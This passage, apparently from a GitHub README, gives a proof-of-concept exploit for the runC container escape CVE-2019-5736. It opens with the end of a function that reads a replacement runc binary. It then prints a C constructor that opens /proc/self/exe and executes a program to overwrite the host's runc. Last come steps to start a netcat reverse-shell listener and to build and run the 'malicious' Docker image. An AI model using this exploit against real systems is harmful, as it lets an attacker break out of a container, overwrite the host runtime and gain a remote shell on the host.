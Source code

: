         fclose(fp_new_runc);
        new_runc.len = rc;
        new_runc.buff = new_runc_content;
        return new_runc;

    }
    ```
    d) run_at_link.c file:
    ```c
    #include <stdio.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    #include <unistd.h>

    __attribute__ ((constructor)) void run_at_link(void)
    {
        char *argv_overwrite[3];
        char buf[128];

        /* Open the runC binary for reading */
        int runc_fd_read = open("/proc/self/exe", O_RDONLY);
        if (runc_fd_read == -1 ) {
            printf("[!] can't open /proc/self/exe\n");
            return;
        }
        printf("[+] Opened runC for reading as /proc/self/fd/%d\n", runc_fd_read);
        fflush(stdout);
    
        /* Prepare overwrite_runc arguments: ['overwrite_runc', '/proc/self/fd/runc_fd_read'] */
        argv_overwrite[0] = strdup("/overwrite_runc");
        snprintf(buf, 128, "/proc/self/fd/%d", runc_fd_read);
        argv_overwrite[1] = buf;
        argv_overwrite[2] = 0;

        printf("[+] Calling overwrite_runc\n");
        fflush(stdout);
        /* Execute overwrite_runc */
        execve("/overwrite_runc", argv_overwrite, NULL);
    }
    ```
    


3. From terminal session start netcat listening to reverse shell:

```
$ nc -nvlp 2345
```

4. From another terminal session build and run malicious docker image, indicating correct path to directory with files:

```
$ docker build -t cve-2019-5736:malicious_image_POC ./malicious_image_POC
$ docker run --rm cve-2019-5736:malicious_image_POC
```
